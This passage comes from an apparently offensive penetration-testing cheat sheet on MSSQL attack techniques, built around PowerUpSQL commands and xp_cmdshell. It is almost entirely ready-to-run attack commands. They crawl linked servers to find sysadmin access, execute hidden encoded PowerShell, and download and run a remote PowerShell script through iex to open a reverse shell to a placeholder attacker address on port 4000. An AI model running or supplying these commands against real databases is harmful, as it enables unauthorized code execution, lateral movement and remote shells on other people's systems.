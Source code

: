 ````
EXEC xp_cmdshell 'powershell.exe -w hidden -enc <BASE64 STRING>';
```
 
#### Execute commands examples
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query "exec master..xp_cmdshell 'whoami'"
Invoke-SQLOSCmd -Instance <SQL INSTANCE> -Verbose -Command "Whoami" -Threads 10
 
Invoke-SQLOSCLR -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
Invoke-SQLOSOLe -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
Invoke-SQLOSR -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
```

#### Execute command through links example
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

#### Execute reverse shell example
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```
 
### Database links
#### Search for links to remote servers
- Check if `RPC_OUT` is enabled. If yes and link is configured with sysadmin we can enable xp_cmdshell.
```
Get-SQLServerLink -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links to remote servers
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links and show servers where we are sysadmin
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> | Where-Object -Property sysadmin -Match 1
```

#### Crawl and try to use xp_cmdshell on every link
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami'''
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami''' | Where-Object CustomQuery
```

### Manual queries
- https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links
- There is two methods ```openquery()``` and ```EXECUTE AT```.
- Some times you won't be able to perform actions like exec xp_cmdshell from ```openquery()``` in those cases it might be worth it to test ```EXCUTE AT```

#### Manually enumerate database links query
```
SELECT * FROM master..sysservers
```
 
#### Query a link - for example for more for links or information
```
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'SELECT * FROM master..sysservers;')
````